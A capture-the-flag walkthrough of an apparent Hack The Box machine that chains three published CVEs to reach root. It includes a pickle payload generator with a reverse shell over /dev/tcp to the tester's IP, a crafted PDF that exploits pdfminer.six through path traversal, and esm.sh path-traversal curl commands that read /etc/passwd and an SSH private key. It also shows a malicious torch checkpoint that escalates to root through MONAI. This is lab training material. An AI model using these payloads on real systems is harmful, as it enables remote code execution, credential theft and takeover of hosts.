as always we do a nmap scan
nmap -sVC -p- -vv -oN nmapScan -T3 10.129.89.101
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 63 OpenSSH 10.0p2 Debian 7+deb13u4 (protocol 2.0)
80/tcp open http syn-ack ttl 63 Apache httpd 2.4.68
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.68 (Debian)
|_http-title: Did not follow redirect to http://bedside.htb/
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel
so we have an http server at beside.htb so going there
so looking around the main site is basically useless, so i tried searching for sub-directories, but nothing was found. So looks like the main website is useless. so searching for vhosts, we find a research.bedside.htb using gobuster like so
gobuster vhost -u http://bedside.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -t 200 -k -q --append-domain --xs 301
research.bedside.htb Status: 200 [Size: 3152]
So with that adding it to our /etc/hosts file and browsing it we find

so looks like we are looking at a file upload vulnerability, and from the directory search we notice that most of the files were ending.php so it looks like we are looking at a php website aswell
so at first when i uploaded something that isn't in the valid extensions i get this

and when i tried to do a double extension
so intercepting the request on burp and trying some stuff i notice that one of the headers for the file upload is pdfminer.six


so it looks like the vulnerability lies in sending a malicious pdf such that the engine pdfminer.six extracts it and then executes code, so I went to search for CVES related topdfminer.six and found its vulnerable to CVE-2025-64512

so upon this PoC advisory , we first need to create a .py file#!/usr/bin/env python3
import pickle
import gzip
def create_demo_pickle():
print("Creating demonstration pickle file...")
# Create payload that executes code AND returns a dict (as pdfminer expects)
class EvilPayload:
def __reduce__(self):
# This function will be called during unpickling
code = "print('Malicious code executed.') or exit(0) or {}"
return (eval, (code,))
demo_cmap_data = EvilPayload()
# Create the pickle file that the path traversal would access
target_path = "./malicious.pickle.gz"
try:
with gzip.open(target_path, 'wb') as f:
pickle.dump(demo_cmap_data, f)
print(f"✓ Created demonstration pickle file: {target_path}")
return target_path
except Exception as e:
print(f"✗ Error creating pickle file: {e}")
return None
if __name__ == "__main__":
create_demo_pickle()
but change code="bash -c 'bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1'"
#!/usr/bin/env python3
import pickle
import gzip
def create_demo_pickle():
print("Creating demonstration pickle file...")
# Create payload that executes code AND returns a dict (as pdfminer expects)
class EvilPayload:
def __reduce__(self):
# This function will be called during unpickling
code = "bash -c 'bash -i >& /dev/tcp/10.10.16.102/5555 0>&1'"
return (eval, (code,))
demo_cmap_data = EvilPayload()
# Create the pickle file that the path traversal would access
target_path = "./malicious.pickle.gz"
try:
with gzip.open(target_path, 'wb') as f:
pickle.dump(demo_cmap_data, f)
print(f"✓ Created demonstration pickle file: {target_path}")
return target_path
except Exception as e:
print(f"✗ Error creating pickle file: {e}")
return None
if __name__ == "__main__":
create_demo_pickle()
and then run it to create the malicious pickle file

and then from there create the malicious pdf%PDF-1.4
1 0 obj
<<
/Type /Catalog
/Pages 2 0 R
>>
endobj
2 0 obj
<<
/Type /Pages
/Kids [3 0 R]
/Count 1
>>
endobj
3 0 obj
<<
/Type /Page
/Parent 2 0 R
/MediaBox [0 0 612 792]
/Contents 4 0 R
/Resources
<<
/Font
<<
/F1 5 0 R
>>
>>
>>
endobj
4 0 obj
<<
/Length 44
>>
stream
BT
/F1 12 Tf
100 700 Td
(Malicious PDF) Tj
ET
endstream
endobj
5 0 obj
<<
/Type /Font
/Subtype /Type0
/BaseFont /MaliciousFont-Identity-H
/Encoding /#2Fvar#2Fwww#2Fresearch.bedside.htb#2Fuploads#2Fmalicious.pickle.gz
/DescendantFonts [6 0 R]
>>
endobj
6 0 obj
<<
/Type /Font
/Subtype /CIDFontType2
/BaseFont /MaliciousFont
/CIDSystemInfo
<<
/Registry (Adobe)
/Ordering (Identity)
/Supplement 0
>>
/FontDescriptor 7 0 R
>>
endobj
7 0 obj
<<
/Type /FontDescriptor
/FontName /MaliciousFont
/Flags 4
/FontBBox [-1000 -1000 1000 1000]
/ItalicAngle 0
/Ascent 1000
/Descent -200
/CapHeight 800
/StemV 80
>>
endobj
xref
0 8
0000000000 65535 f
0000000009 00000 n
0000000058 00000 n
0000000115 00000 n
0000000274 00000 n
0000000370 00000 n
0000000503 00000 n
0000000673 00000 n
trailer
<<
/Size 8
/Root 1 0 R
>>
startxref
871
%%EOF
and then upload the malicious.pickle file , and then malicious.pdf


so after gaining the shell
we land in the/app directory, so going around we find a bash script in /tmp called portscan, and we notice that we are in a docker container


so this gives us a way to enumerate the ports if they are listneing on the local service, so first make it into an executable and use it against the local service
so we do get a port open at 3000, note that we couldn't usess -ltunp as it gives out an error. so lets try to curl to that port and see what it is running

it looks like its running an image viewer, but at the end of the curl request we find this
so i went to search on google onbuilt with esm.sh CVE and found that its vulnerable to and found through this advisory we can utilize a LFI through it to read files , the POC listed was:
curl --path-as-is 'http://localhost:9999/pr/x/y@99/../../../../../../../../../../etc/passwd?raw=1&module=1'
so we just fix this a bit like so
curl --path-as-is 'http://localhost:3000/pr/x/y@99/../../../../../../../../../../etc/passwd?raw=1&module=1'

now what we have file read, one of the most important thing is checking the/etc/passwd to see who has a login shell and who we can't log in with, so we notice the user developer has a /bin/bash so we could use this to read his private ssh key and use it to log in, like so
curl --path-as-is 'http://localhost:3000/pr/x/y@99/../../../../../../../../../../home/developer/.ssh/id_rsa?raw=1&module=1'

so now with that we could use this SSH key to log in asdeveloper

and the user.txt is found there, so now looking at the listening ports we do not find something interesting, but we trysudo -l and we do find we can run a python script as sudo

so i first transferred this script to my box usingscp
scp -i developer_id_rsa developer@10.129.89.101:/opt/trainer/bedside_trainer.py .
bedside_trainer.py is a MONAI training harness. The dangerous part is the checkpoint resume block: on line 209
latest_ckpt = find_latest_checkpoint(CHECKPOINT_DIR)
start_epoch = 0
if latest_ckpt:
logger.info(f"Found checkpoint {latest_ckpt}, loading with CheckpointLoader (callable mode)...")
loader = CheckpointLoader( # line 213
load_path=str(latest_ckpt),
load_dict={"model": model, "optimizer": optimizer},
map_location=DEVICE
)
class MockEngine: # line 220
def __init__(self):
self.state = type("State", (), {})()
self.state.max_epochs = None
self.state.epoch = 0
engine = MockEngine()
loader(engine) # line 227 <- sink
find_latest_checkpoint is attacker-controllable selection:
on lines 94-96
def find_latest_checkpoint(checkpoint_dir: Path):
ckpts = sorted(checkpoint_dir.glob("*.pt"), key=os.path.getmtime)
return ckpts[-1] if ckpts else None
It takes the newest *.pt in /datastore/checkpoints by mtime and feeds it to CheckpointLoader. Two things make this exploitable: 1. /datastore is attacker-writable. The container I already owned (data-wrangler) bind-mounts the host's /dev/sda4 at /datastore, and /datastore is owned by datawrangler:dataops. So I can drop any file into /datastore/checkpoints/ and it is visible to the host root process. 2. CheckpointLoader(...).call deserializes that file with torch.load. 3. How I identified the CVE The combination of signals was unambiguous: - The import on line 46 has a tell-tale author comment: from monai.handlers import CheckpointLoader # <-- Correct import. - The MockEngine + CheckpointLoader(loadath=., loadict=.. mapocatn=...) + loader(engine) block is verbatim the proof-of-concept from the MONAI advisory. That advisory is CVE-2025-58756 / GHSA-6vm5-6jv9-rjpj — "Unsafe torch usage leads to arbitrary code execution": - Package: monai - Affected: ≤ 1.5.0 - Patched: 1.5.1 (PR #8566, which forces weights_only=True) CheckpointLoader.call in the vulnerable versions calls: checkpoint = torch.load(self.load_path, map_location=self.map_location, weights_only=False) torch.load with weights_only=False uses the standard Python pickle unpickler under the hood. Pickle is not a data format — it is a bytecode interpreter. During unpickling it can import arbitrary modules and call arbitrary functions via an object's reduce. So loading a checkpoint file I control = executing my code, in this case as root. This was confirmed live, not just assumed: the first trainer run's traceback printed monai/handlers/checkpoint_loader.py", line 146, in call Checkpoint.load_objects(...) after torch.load had already returned — and an earlier traceback showed the literal call torch.load(self.load_path, map_location=self.map_location, weights_only=False). The box ships a vulnerable MONAI.
torch.save/torch.load format is a ZIP archive. torch.load reads the data.pkl entry and unpickles it:
archive/data.pkl <- the pickle (executes on load)
archive/byteorder <- b"little"
archive/version <- b"3"
(First attempt I wrote data.pkl at the zip root; torch rejected it with file in archive is not in a subdirectory — the entries must live under archive/.) The malicious data.pkl is a pickled object whose reduce returns a callable to run during unpickling:
class Evil:
def __reduce__(self):
return (eval, ("(__import__('os').system(CMD), {})[1]",))
- pickle.loads calls eval(code) → os.system(CMD) runs as root.
- The (..., {})[1] makes the result {}, so the top-level object is a plain dict — the load itself succeeds and only the later Checkpoint.load_objects state-dict matching fails (harmlessly, after my code has run).
This is exactly why the final traceback (the Key 'model' ... dict_keys([]) error) is expected and irrelevant: it is thrown at line 146 of checkpoint_loader.py, after the pickle already executed.
build_model(dataloader) (which calls next(iter(dataloader))) and the checkpoint-load block are only reached when there is at least one data sample. So I planted a valid image: - /datastore/processed/pwn.png This is important because /datastore/staging already held 860 .txt files (the output of the pdf extraction pipeline). If processed/ were empty, the script would promote up to 200 of those .txt files into processed/, and MONAI's LoadImaged would try to open them as images and crash before the checkpoint load. Pre-seeding processed/ with a real image makes n_data > 0 on the first call, so the promote path is skipped.
So the exploit sequence looks like so:
Plant the trigger files from the container (datawrangler): - /datastore/processed/pwn.png — valid 64×64 PNG (satisfies the data gate) - /datastore/checkpoints/evil.pt — malicious checkpoint, newest mtime
Run the trainer as developer:
sudo /usr/bin/python3 /opt/trainer/bedside_trainer.py
find_latest_checkpoint picks evil.pt → CheckpointLoader → torch.load(weights_only=False) → unpickle → os.system(CMD) as root.
now with that once we execute the python script again, we should find a /tmp/rootbash set to our home directory which can be used to escalate to root since its a SUID bash from root with permissions for users 655 to execute
